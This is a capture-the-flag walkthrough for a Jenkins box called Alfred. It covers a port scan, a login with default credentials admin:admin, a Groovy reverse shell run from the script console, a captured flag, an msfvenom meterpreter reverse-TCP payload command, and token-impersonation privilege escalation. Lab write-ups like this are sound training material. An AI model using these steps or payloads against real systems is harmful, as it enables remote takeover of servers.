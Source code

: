 # Alfred

### Initial Access
- How many ports are open? (TCP only)<br />

      nmap 10.10.128.203 -Pn -n                                              
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 09:03 EDT
      Nmap scan report for 10.10.128.203
      Host is up (0.053s latency).
      Not shown: 997 filtered tcp ports (no-response)
      PORT     STATE SERVICE
      80/tcp   open  http
      3389/tcp open  ms-wbt-server
      8080/tcp open  http-proxy
      Nmap done: 1 IP address (1 host up) scanned in 5.51 seconds
`3`

- What is the username and password for the login panel? (in the format username:password)<br />
Port 80 shows nothing interesting: <br />
![image](https://github.com/user-attachments/assets/e504da8e-e4a8-45b9-b180-1c661e9a6a09)<br />
Port 8080 shows a login panel: <br />
![image](https://github.com/user-attachments/assets/42bd93a2-81ec-45ff-a260-1f4ae3470381)<br />
Searching online for the default credentials, I gained access to the panel with the credentials admin:admin. `admin:admin`

- What is the user.txt flag?<br />
Playing around with the application, I found that in the "Manage Jenkins" section, there's the possibility of executing scripts: <br />
![image](https://github.com/user-attachments/assets/a3739b3e-629b-475d-a595-27518cfae65e)<br />
So, after some reasearch, I understood that the script must be written in groovy, which is an object oriented language that runs in the JVM, but was developed to be more concise and less verbose than Java. I found a groovy reverse shell [here](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76), the code for the reverse shell can be found in revShell.groovy inside this folder. So finally I was able to gain initial access:<br />
![image](https://github.com/user-attachments/assets/3a615248-071f-41f6-af7e-c5e7cf7928a6)<br />
So I was able to get the flag: <br />
![image](https://github.com/user-attachments/assets/5afb69d9-8d50-444e-87e0-a0914bd790de)<br />
`79007a09481963edf2e1321abd9ae2a0`


### Switching Shells
Now we want to upgrade the shell to a meterpreter shell using the following command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o shell-name.exe`.
- What is the final size of the exe payload that you generated?

### Privilege Escalation
- Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command?
- Read the root.txt file located at C:\Windows\System32\config

